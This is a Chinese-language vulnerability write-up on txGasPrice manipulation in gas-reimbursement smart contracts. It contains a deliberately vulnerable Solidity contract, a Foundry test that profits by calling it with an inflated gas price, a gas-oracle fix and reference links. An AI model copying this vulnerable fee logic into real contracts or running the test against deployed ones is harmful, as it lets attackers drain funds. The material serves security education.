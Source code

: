 # txGasPrice 值操作

**名称：** txGasPrice 值操纵

**描述：** 操纵 txGasPrice 值，这可能会导致意外后果和潜在的财务损失。

在calculateTotalFee函数中，总费用是通过将gasUsed + GAS_OVERHEAD_NATIVE与txGasPrice相乘来计算的。 问题是 txGasPrice 值可能被攻击者操纵，可能导致费用计算夸大。

**解决办法：**

为了解决此漏洞，建议实施保护措施，例如使用 Gas 预言机从可信来源获取平均 Gas 价格。

**参考：**

https://twitter.com/1nf0s3cpt/status/1678268482641870849

https://github.com/solodit/solodit_content/blob/main/reports/ZachObront/2023-03-21-Alligator.md

https://github.com/solodit/solodit_content/blob/main/reports/Trust Security/2023-05-15-Brahma.md

https://blog.pessimistic.io/ethereum-alarm-clock-exploit-final-thoughts-21334987c331

**GasReimbursement 合约样例:**

```jsx
contract GasReimbursement {
    uint public gasUsed = 100000; // Assume gas used is 100,000
    uint public GAS_OVERHEAD_NATIVE = 500; // Assume native token gas overhead is 500

    // uint public txGasPrice = 20000000000;  // Assume transaction gas price is 20 gwei

    function calculateTotalFee() public view returns (uint) {
        uint256 totalFee = (gasUsed + GAS_OVERHEAD_NATIVE) * tx.gasprice;
        return totalFee;
    }

    function executeTransfer(address recipient) public {
        uint256 totalFee = calculateTotalFee();
        _nativeTransferExec(recipient, totalFee);
    }

    function _nativeTransferExec(address recipient, uint256 amount) internal {
        payable(recipient).transfer(amount);
    }
}
```

***\*测试方法:\****

**仿真测试 --contracts src/test/**gas-price.sol**-vvvv**

```jsx
// Test function to check gas refund in the GasReimbursementContract.
function testGasRefund() public {
    // Get the balance of this contract before executing the transfer.
    uint balanceBefore = address(this).balance;

    // Call the 'executeTransfer' function of the GasReimbursementContract, which should trigger a gas refund.
    GasReimbursementContract.executeTransfer(address(this));

    // Calculate the balance of this contract after the transfer and subtract the gas cost (gas price) from it.
    uint balanceAfter = address(this).balance - tx.gasprice; // --gas-price 200000000000000

    // Calculate and log the profit obtained by the contract from the gas refund.
    console.log("Profit", balanceAfter - balanceBefore);
}
```

**红框：gas退款错误**

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F1a5cb283-c5d4-4bd2-b802-5ebb285537d3%2FUntitled.png?table=block&id=6fd4f616-4158-4f5a-9ae6-32cc3659b1e6&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)